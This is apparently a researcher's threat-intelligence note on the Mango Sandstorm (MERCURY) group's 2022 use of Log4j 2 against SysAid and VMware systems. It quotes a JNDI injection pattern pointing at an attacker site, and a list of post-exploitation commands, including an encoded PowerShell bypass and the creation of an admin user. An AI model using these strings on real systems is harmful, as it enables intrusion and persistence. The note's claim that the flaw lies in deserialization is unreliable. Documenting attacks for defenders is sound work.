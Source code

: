 # Day 4 - Mango Sandstorm Attack techniques & insights
While I am tracing back the history of Mango Sandstorm, formerly known as MERCURY, I have a few questions, and I hope that these questions and my curiosity will help someone with their security incident response.

|#|Title|About|
|:---|:---|:---|
| Part 1 | [Day4-Mango-Sandstorm-Part1-Overview.md](https://github.com/LearningKijo/SecurityResearcher-Note/blob/main/SecurityResearcher-Note-Folder/Day4-Mango-Sandstorm-Part1-Overview.md)   | Mango Sandstorm overview |
| Part 2 | Day4-Mango-Sandstorm-Part2-AttackTechniques-Insights.md  |August 25, 2022, Mango Sandstorm |
| Part 3 | Day4-Mango-Sandstorm-Part3-AttackTechniques-Insights.md (wip) |April 7, 2023, Mango Sandstorm & Storm-1084 |

## August 25, 2022, Mango Sandstorm
#### Short Summary
Mango Sandstorm, previously known for using Log4j 2 exploits to attack VMware apps, has recently been targeting SysAid apps using the same technique. Once they gain initial access, the group establishes persistence, moves laterally within the network using custom and well-known hacking tools, and dumps credentials.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/f67bb7ac-2cc3-4a6e-ab31-06b8db9ce991)
> **Note** : [MERCURY leveraging Log4j 2 vulnerabilities in unpatched systems to target Israeli organizations](https://www.microsoft.com/en-us/security/blog/2022/08/25/mercury-leveraging-log4j-2-vulnerabilities-in-unpatched-systems-to-target-israeli-organizations/)


## Log4j 2 vulnerability
As the Mango Sandstorm attack was initiated through the Log4j vulnerability, let's delve deeper into the attack and the vulnerability.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/49b682a4-10a9-4b9b-be53-a0c80e00d01b)
> [Remediating the Log4j vulnerability](https://www.youtube.com/watch?v=ulOTK2pZLNU) | Microsoft Defender for Endpoint

#### What is Log4j?
Log4j is a widely used Java logging library that allows developers to log events and messages in their applications. It provides flexibility in categorizing and controlling logging output, enabling effective debugging and monitoring of applications.

#### Why was Log4j 2 exploited?
Log4j 2, an updated version of Log4j, is a widely used and powerful logging framework in Java. However, it had a critical vulnerability called Log4Shell (CVE-2021-44228, CVE-2021-45046, CVE-2021-44832), ***which allowed attackers to remotely execute code by exploiting its deserialization functionality.*** 

#### How does the attacker precisely exploit the vulnerable Log4j 2? 
Attackers exploit vulnerable Log4j 2 systems by sending data containing a specific string. Log4j 2, while attempting to process this string, accesses ***a specified URL through the JNDI Lookup feature***. This allows attackers to download and execute malicious Java code within the system.
> **Note** : Java Naming and Directory Interface (JNDI)

#### A specified URL?
Here is the pattern of attack - **${indi:ldap//[attacker site]/a}**

#### What commands were executed through the Log4j 2 exploit?
```cmd
cmd.exe /C whoami
cmd.exe /C powershell -exec bypass -w 1 -enc UwB….
cmd.exe /C hostname
cmd.exe /C ipconfig /all
cmd.exe /C net user
cmd.exe /C net localgroup administrators
cmd.exe /C net user admin * /add
cmd.exe /C net localgroup Administrators admin /add
cmd.exe /C quser
```
### Reference
[Guidance for preventing, detecting, and hunting for exploitation of the Log4j 2 vulnerability](https://www.microsoft.com/en-us/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/).

#### Disclaimer
The views and opinions expressed herein are those of the author and do not necessarily reflect the views of company.

